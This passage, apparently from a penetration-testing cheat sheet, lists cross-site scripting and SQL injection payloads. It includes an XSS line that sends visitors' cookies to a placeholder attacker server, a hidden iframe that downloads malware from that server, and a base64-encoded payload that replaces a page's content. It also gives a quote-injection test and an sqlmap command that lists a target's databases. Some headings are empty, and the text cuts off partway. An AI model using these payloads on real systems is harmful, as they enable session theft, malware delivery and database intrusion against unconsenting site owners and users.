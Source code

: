 ```javascript
<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>
```

#### Malware Donwloader via XSS

```javascript
<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>
```

#### How to play Mario with XSS

```javascript
<iframe
  src="https://jcw87.github.io/c2-smb1/"
  width="100%"
  height="600"
></iframe>
```

```javascript
<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
```

#### XSS payloads

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)

## SQLI

**SQL Injection**

### Sqlmap

#### GET

#### Error-Based

#### Simple test

`Adding a simpe quote '`

Example:

```javascript
http://192.168.1.104/Less-1/?id=5'
```

#### List databases

```shell
./sqlmap.py -u http://localhost/Less-1/?id=1 --dbs
```
